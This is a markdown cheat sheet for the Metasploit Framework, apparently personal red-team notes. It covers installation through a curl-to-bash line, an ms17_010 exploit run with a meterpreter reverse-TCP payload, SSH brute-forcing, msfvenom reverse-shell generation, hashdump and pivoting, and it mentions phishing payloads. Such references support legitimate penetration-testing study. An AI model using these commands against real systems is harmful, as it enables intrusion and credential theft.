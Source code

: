 # Metasploit Framework 🔥💻🕵️‍♂️
#RED #Tool 

Metasploit Framework is an open-source penetration testing platform that enables security professionals to test system vulnerabilities, execute exploit code, and develop their own exploit tools.

**LINK TO TOOL DOCUMENTATION [HERE](https://www.metasploit.com/)**

The Metasploit Framework is one of the most widely used penetration testing tools in the cybersecurity industry. It provides a robust platform for identifying, exploiting, and validating vulnerabilities in various systems.

---
![Metasploit Framework](https://upload.wikimedia.org/wikipedia/commons/3/38/Metasploit_logo_and_wordmark.png)

---

### 🚀 Installing Metasploit Framework

#### 🔹 **LINUX** 🐧
```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfupdate | bash
```

#### 🔹 **Windows** 🏁
Download from: [Metasploit Framework](https://www.metasploit.com/download)

---

## 🧰 Common Commands

### Start Metasploit
```bash
msfconsole                
```

### Search for exploits related to Apache
```bash
search exploit apache     
```

### Use an exploit module
```bash
use exploit/windows/smb/ms17_010  
```

### Set target IP
```bash
set RHOST 192.168.1.100   
```

### Select payload
```bash
set PAYLOAD windows/meterpreter/reverse_tcp  
```

### Execute the exploit
```bash
exploit                   
```

### Interact with a compromised system
```bash
sessions -i 1             
```

### Additional Useful Commands:
```bash
show exploits             # Display available exploits
show payloads             # Display available payloads
show auxiliary            # Display auxiliary modules
show post                 # Display post-exploitation modules
use auxiliary/scanner/ssh/ssh_login  # Use SSH brute-force login module
set USERNAME admin        # Set a username for brute-force attack
set PASSWORD password123  # Set a password for brute-force attack
run                       # Execute the selected module
sessions -l               # List active sessions
sessions -k <session_id>  # Kill a specific session
background                # Move a session to background
exit                      # Exit Metasploit Framework
```

---

## ⚙️ Advanced Usage

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > shell.exe  # Generate a payload
use auxiliary/scanner/portscan/tcp   # Perform a TCP port scan
use post/windows/gather/hashdump     # Dump password hashes after exploitation
```

---

## 📋 Handy Options

| Option         | Description                                    |
|---------------|--------------------------------|
| `-x`          | Run exploit and auto-interact with session |
| `-j`          | Run as background job                    |
| `-z`          | Skip interactive prompt after exploit    |
| `show options`| Display required settings for a module  |
| `setg`        | Set a global variable for all modules   |
| `resource`    | Run multiple Metasploit commands from a script |
| `db_nmap`     | Use Nmap from within Metasploit for scanning |
| `route`       | Manage pivoting and route traffic through compromised hosts |
| `exploit -z`  | Run exploit without interaction        |
| `jobs -K`     | Kill all running background jobs       |

---

## 🌐 Example Scenarios

- **Penetration Test**: Gain access to a system using an exploit and test security controls.
- **Post-Exploitation**: Extract credentials, capture keystrokes, or pivot within the network.
- **Red Teaming**: Simulate a real-world attack scenario and evaluate security defenses.
- **Social Engineering**: Craft malicious payloads for phishing campaigns.

---

## 🚀 Pro Tips

- Always update Metasploit before running tests: `msfupdate` 🔄
- Use `searchsploit` for offline exploit database searching 📖
- Combine Metasploit with Nmap for reconnaissance 🔍
- Use `setg` to set global options across multiple modules 🌍
- Leverage `resource` scripts to automate tasks ⚡

---

## 📚 References
- [Metasploit Documentation](https://docs.metasploit.com/)
- [Offensive Security Metasploit Course](https://www.offsec.com/metasploit-unleashed/)

---

![VIDEO](https://www.youtube.com/watch?v=3Kq1MIfTWCE)
